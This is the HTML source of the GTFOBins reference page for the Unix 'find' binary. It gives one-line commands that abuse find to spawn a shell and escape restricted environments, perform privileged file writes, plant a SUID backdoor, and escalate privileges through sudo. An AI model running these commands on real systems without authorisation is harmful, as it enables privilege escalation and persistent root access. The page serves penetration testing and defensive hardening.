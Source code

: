\<!DOCTYPE html\>
<html lang="en">
<head>
<meta charset="utf-8">
<title>

find

| 

GTFOBins
</title>
`<link rel="icon" href="/assets/logo.png">`{=html}
`<link rel="stylesheet" href="/assets/style.css" type="text/css"/>`{=html}
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0, user-scalable=yes">
<script async defer src="https://buttons.github.io/buttons.js"></script>
</head>
<body>

`<a href="https://github.com/GTFOBins/GTFOBins.github.io" class="github-corner" aria-label="View source on Github">`{=html}`<svg width="80" height="80" viewBox="0 0 250 250" style="fill:#151513; color:#fff; position: absolute; top: 0; border: 0; right: 0;" aria-hidden="true">`{=html}`<path d="M0,0 L115,115 L130,115 L142,142 L250,250 L250,0 Z">`{=html}`</path>`{=html}`<path d="M128.3,109.0 C113.8,99.7 119.0,89.6 119.0,89.6 C122.0,82.7 120.5,78.6 120.5,78.6 C119.2,72.0 123.4,76.3 123.4,76.3 C127.3,80.9 125.5,87.3 125.5,87.3 C122.9,97.6 130.6,101.9 134.4,103.2" fill="currentColor" style="transform-origin: 130px 106px;" class="octo-arm">`{=html}`</path>`{=html}`<path d="M115.0,115.0 C114.9,115.1 118.7,116.5 119.8,115.4 L133.7,101.6 C136.9,99.2 139.9,98.4 142.2,98.6 C133.8,88.0 127.5,74.4 143.8,58.0 C148.5,53.4 154.0,51.2 159.7,51.0 C160.3,49.4 163.2,43.6 171.4,40.1 C171.4,40.1 176.1,42.5 178.8,56.2 C183.1,58.6 187.2,61.8 190.9,65.4 C194.5,69.0 197.7,73.2 200.1,77.6 C213.8,80.2 216.3,84.9 216.3,84.9 C212.7,93.1 206.9,96.0 205.4,96.6 C205.1,102.4 203.0,107.8 198.3,112.5 C181.9,128.9 168.3,122.5 157.7,114.1 C157.9,116.9 156.7,120.9 152.7,124.9 L141.0,136.5 C139.8,137.7 141.6,141.9 141.8,141.8 Z" fill="currentColor" class="octo-body">`{=html}`</path>`{=html}`</svg>`{=html}`</a>`{=html}`<style>`{=html}.github-corner:hover
.octo-arm{animation:octocat-wave 560ms ease-in-out}@keyframes
octocat-wave{0%,100%{transform:rotate(0)}20%,60%{transform:rotate(-25deg)}40%,80%{transform:rotate(10deg)}}@media
(max-width:500px){.github-corner:hover
.octo-arm{animation:none}.github-corner .octo-arm{animation:octocat-wave
560ms ease-in-out}}`</style>`{=html}

<h1>

`<a href="/">`{=html}..`</a>`{=html} /

find

::: github-buttons
        <a class="github-button" href="https://github.com/GTFOBins/GTFOBins.github.io" data-icon="octicon-star" data-show-count="true" aria-label="Star GTFOBins/GTFOBins.github.io on GitHub">Star</a>
    </div>

</h1>
<ul class="function-list">
<li>
`<a href="/gtfobins/find/#shell">`{=html}Shell`</a>`{=html}
</li>
<li>
`<a href="/gtfobins/find/#file-write">`{=html}File write`</a>`{=html}
</li>
<li>
`<a href="/gtfobins/find/#suid">`{=html}SUID`</a>`{=html}
</li>
<li>
`<a href="/gtfobins/find/#sudo">`{=html}Sudo`</a>`{=html}
</li>
</ul>
<h2 id="shell" class="function-name">
Shell
</h2>
<p>
It can be used to break out from restricted environments by spawning an
interactive system shell.
</p>
<ul class="examples">
<li>
<pre><code>find . -exec /bin/sh \; -quit</code></pre>
</li>
</ul>
<h2 id="file-write" class="function-name">
File write
</h2>
<p>
It writes data to files, it may be used to do privileged writes or write
files outside a restricted file system.
</p>
<ul class="examples">
<li>
<p>
DATA is a format string, it supports some escape sequences.
</p>
<pre><code>LFILE=file_to_write
find / -fprintf &quot;$FILE&quot; DATA -quit</code></pre>
</li>
</ul>
<h2 id="suid" class="function-name">
SUID
</h2>
<p>
If the binary has the SUID bit set, it does not drop the elevated
privileges and may be abused to access the file system, escalate or
maintain privileged access as a SUID backdoor. If it is used to run
`<code class="language-plaintext highlighter-rouge">`{=html}sh
-p`</code>`{=html}, omit the
`<code class="language-plaintext highlighter-rouge">`{=html}-p`</code>`{=html}
argument on systems like Debian (\<= Stretch) that allow the default
`<code class="language-plaintext highlighter-rouge">`{=html}sh`</code>`{=html}
shell to run with SUID privileges.
</p>
<p>
This example creates a local SUID copy of the binary and runs it to
maintain elevated privileges. To interact with an existing SUID binary
skip the first command and run the program using its original path.
</p>
<ul class="examples">
<li>
<pre><code>sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit</code></pre>
</li>
</ul>
<h2 id="sudo" class="function-name">
Sudo
</h2>
<p>
If the binary is allowed to run as superuser by
`<code class="language-plaintext highlighter-rouge">`{=html}sudo`</code>`{=html},
it does not drop the elevated privileges and may be used to access the
file system, escalate or maintain privileged access.
</p>
<ul class="examples">
<li>
<pre><code>sudo find . -exec /bin/sh \; -quit</code></pre>
</li>
</ul>

        <script>
         // add permalink on headings
         document.querySelectorAll('h2, h3, h4, h5, h5').forEach((heading) => {
             const link = document.createElement('a');
             link.className = 'permalink';
             link.href = `#${heading.id}`;
             heading.appendChild(link);
         });
        </script>
    </body>

</html>
:::
